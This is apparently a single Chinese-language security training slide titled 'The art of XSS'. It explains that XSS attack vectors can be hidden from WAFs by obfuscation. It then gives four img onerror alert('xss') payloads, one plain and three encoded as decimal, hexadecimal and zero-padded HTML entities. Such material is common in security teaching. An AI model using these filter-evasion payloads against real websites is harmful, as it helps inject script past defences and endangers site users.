

# The art of XSS
在XSS 构造的过程中需要保护好自己的攻击向量代码(有些WAF 会根据数据包内是否存在有JavaScript 代码来判断XSS 攻击),常用的方法有混淆和加密
HTML 编码混淆:
<img src="" onerror="alert('xss');">
<img src="" onerror="&#97;&#108;&#101;&#114;&#116;&#40;&#39;&#120;&#115;&#115;&#39;&#41;&#59;">
<img src="" onerror="&#x61&#x6c&#x65&#x72&#x74&#x28&#x27&#x78&#x73&#x73&#x27&#x29&#x3b">
<img src="" onerror="&#00000097&#00000108&#00000101&#00000114&#00000116&#00000040&#00000039&#00000120&#00000115&#00000115&#00000039&#00000041&#00000059">